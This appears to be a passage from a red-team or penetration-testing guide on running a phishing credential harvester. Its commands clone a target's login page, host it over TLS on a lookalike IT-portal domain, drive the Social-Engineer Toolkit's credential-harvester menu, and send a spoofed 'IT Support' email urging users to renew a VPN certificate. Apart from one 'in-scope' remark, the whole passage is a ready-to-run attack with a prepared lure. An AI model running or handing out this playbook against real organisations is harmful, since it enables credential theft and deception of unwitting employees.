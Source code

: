 - Clone a login page (for credential-harvester pretexts; ensure in-scope):
```
# Option 1: HTTrack
httrack https://portal.target.tld -O ./clone --mirror --user-agent "Mozilla/5.0"

# Option 2: wget
wget --mirror --convert-links --adjust-extension --page-requisites --no-parent \
  https://portal.target.tld -P ./clone
```

- Serve the cloned site over TLS with Nginx + Let’s Encrypt:
```
sudo apt update && sudo apt install -y nginx certbot python3-certbot-nginx
sudo mkdir -p /var/www/it-portal
sudo cp -r ./clone/* /var/www/it-portal/

sudo tee /etc/nginx/sites-available/it-portal.conf >/dev/null <<'EOF'
server {
  listen 80;
  server_name it-portal.example.com;
  root /var/www/it-portal;
  index index.html index.php;
  location / {
    try_files $uri $uri/ =404;
  }
}
EOF

sudo ln -s /etc/nginx/sites-available/it-portal.conf /etc/nginx/sites-enabled/
sudo nginx -t && sudo systemctl reload nginx

# TLS
sudo certbot --nginx -d it-portal.example.com --non-interactive --agree-tos -m you@example.com
```

- Start SET (Social-Engineer Toolkit) for a credential harvester (interactive):
```
sudo apt install -y set
sudo setoolkit
# 1) Social-Engineering Attacks
# 2) Website Attack Vectors
# 3) Credential Harvester Attack Method
# 2) Site Cloner
# Set the POST capture and the URL to clone (e.g., https://portal.target.tld)
```

- Test email delivery and headers with swaks:
```
swaks --server smtp.relay.example --from it-support@vendor.example \
  --to user@target.tld --tls --header "Subject: Action required: VPN cert renewal" --data \
'From: IT Support <it-support@vendor.example>
To: user@target.tld
Subject: Action required: VPN certificate renewal

Hi,
Your VPN certificate expires today. Please visit https://it-portal.example.com to renew.
If you need help, reply to this email or call x1234.
- IT Support'
```
